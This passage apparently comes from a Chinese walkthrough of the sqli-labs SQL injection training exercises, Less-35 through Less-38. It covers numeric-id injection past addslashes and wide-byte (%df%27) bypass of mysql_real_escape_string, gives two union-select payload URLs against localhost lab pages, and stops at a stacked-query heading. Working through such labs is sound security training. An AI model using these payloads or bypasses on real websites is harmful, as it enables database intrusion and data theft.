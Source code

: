 源码：

![](/img/sql/sou2.png)

发现是数字型的id，那么在注入时addslashes函数就不会起到什 &#x20;
么作用。

payload:

> http://localhost/Less-35/?id=0%20union%20select%201,2,3%20--+"

## Less-36

### GET字符型mysql\_real\_escape\_string绕过注入

跟前几题类似，区别在于转义字符串的函数换成了`mysql_real_escape_string`,在参考手册中查一下。

![](/img/sql/mysql_escape.png)

注入方法和之前的一样。

payload:

> http://localhost/Less-36/?id=0%df%27%20union%20select%201,2,3%20--+"

## Less-37

### POST字符型mysql\_real\_escape\_string绕过注入

只是换了转义函数，注入方法同Less-34。

## Less-38

### GET字符型层次化查询注入

源码：

![](/img/sql/stacked.png)
